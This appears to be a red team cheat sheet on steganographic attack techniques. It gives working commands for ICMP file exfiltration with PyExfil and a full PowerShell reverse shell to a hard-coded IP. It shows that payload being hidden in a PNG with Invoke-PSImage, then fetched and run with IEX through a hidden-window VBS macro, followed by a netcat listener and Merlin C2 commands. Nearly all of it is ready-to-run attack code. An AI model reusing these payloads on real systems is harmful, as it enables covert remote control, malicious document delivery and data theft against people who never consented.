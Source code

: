 # Stego Red Team

## Data Exfiltration using ICMP 8

* PyExfil: https://github.com/ytisf/PyExfil

* Target: `python -c 'from pyexfil.network.ICMP.icmp_exfiltration import send_file;ip_addr = "127.0.0.1";send_file(ip_addr, src_ip_addr="127.0.0.1", file_path="/home/kali/stego/PyExfil/1.txt", max_packetsize=512, SLEEP=0.1)'`

* Server: `tcpdump -A icmp -i lo`



## Remote Access using PSImage

* PSImage: https://github.com/peewpw/Invoke-PSImage

* `echo '$client = New-Object System.Net.Sockets.TCPClient("46.101.222.52",444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' > payload.ps1`
* `Import-Module .\Invoke-PSImage.ps1`
* `Invoke-PSImage -Script .\payload.ps1 -Out .\evil.png -Image .\image.png -Web`
* `sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("http://46.101.222.52/evil.png"));$o=a Byte[] 1920;(0..0)|%{foreach($x in(0..1919)){$p=$g.GetPixel($x,$_);$o[$_*1920+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..500]))`
* Create a VBS Macro: 
```
Sub RunAndGetCmd()

    strCommand = "Powershell -W Hidden -Exec Bypass -Command ""sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead('http://46.101.222.52/evil.png'));$o=a Byte[] 1920;(0..0)|%{foreach($x in(0..1919)){$p=$g.GetPixel($x,$_);$o[$_*1920+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..500]))"""
    Set WshShell = CreateObject("WScript.Shell")
    Set WshShellExec = WshShell.Exec(strCommand)
    strOutput = WshShellExec.StdOut.ReadAll

End Sub
```
* `nc -nlvp 444`



## Post-Exploitation over HTTP/2 C&C

* `./ merlinServer-Linux-x64 -i 46.101.222.52`
* `./ merlinAgent-Linux-x64 -url https://46.101.222.52:443`
 
 
 
## Awsome Tools & Resources

* SpookFlare: https://artofpwn.com/spookflare.html
* Packet Whisper: https://github.com/TryCatchHCF/PacketWhisper
* Merlin: https://github.com/Ne0nd0g/merlin
* Steganography Network: https://github.com/microkost/Steganography-for-IP-networks
* Mindcrypt Repo: https://github.com/mindcrypt
